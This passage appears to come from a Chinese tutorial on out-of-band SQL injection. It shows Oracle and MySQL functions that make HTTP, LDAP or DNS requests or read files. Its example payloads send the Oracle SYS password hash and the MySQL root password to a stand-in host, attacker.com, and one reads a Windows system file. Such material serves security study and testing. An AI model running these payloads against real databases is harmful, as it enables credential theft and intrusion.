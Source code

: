 ```
 SELECT UTL_HTTP.REQUEST('http://test.example.com/index.php') FROM DUAL;     

```

4.2.3 HTTPURITYPE.GETCLOB

HTTPURITYPE类的实例方法GETCLOB()返回从给定地址中检索到的CLOB（Character Large Object） HTTPURITYPE('').GETCLOB()

例如，从页面http://test.example.com/index.php开始内容检索 运行：

```
 SELECT HTTPURITYPE('http://test.example.com/index.php').GETCLOB() FROM DUAL;

```

4.2.4 DBMS_LDAP.INIT

DBMS_LDAP包使得PL/SQL程序员能够访问轻量级目录访问协议（LDAP）服务器。它的程序INIT()用于初始化与LDAP服务器的会话： DBMS_LDAP.INIT(('',)

例如：初始化与主机test.example.com的连接 运行：

```
 SELECT DBMS_LDAP.INIT(('test.example.com',80) FROM DUAL;

```

攻击者可以使用任何以上提到的Oracle子程序发起DNS请求。然而，在Oracle 11g中，除了DBMS_LDAP.INIT()以外的所有可能导致网络访问子程序都受到限制。 

4.2.5例子

以下例子是系统管理员（SYS）的密码哈希被Oracle程序DBMS_LDAP.INIT（）通过DNS解析机制传输：

```
 SELECT DBMS_LDAP.INIT((SELECT password FROM SYS.USER$ WHERE name='SYS')||'.attacker.com',80) FROM DUAL;     

```

4.3 MySQL 
----------

* * *

4.3.1 LOAD_FILE

MySQL的函数LOAD_FILE()读取文件内容并将其作为字符串返回： LOAD_FILE('')

例如，要获取C:\Windows\system.ini文件的内容 运行：

```
 SELECT LOAD_FILE('C:\\Windows\\system.ini') ;     

```

4.3.2例子

以下是使用MySQL的函数LOAD_FILE()将系统管理员的密码通过DNS解析机制传输的例子： 

```
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root'     LIMIT 1),'.attacker.com\\foobar'));

```

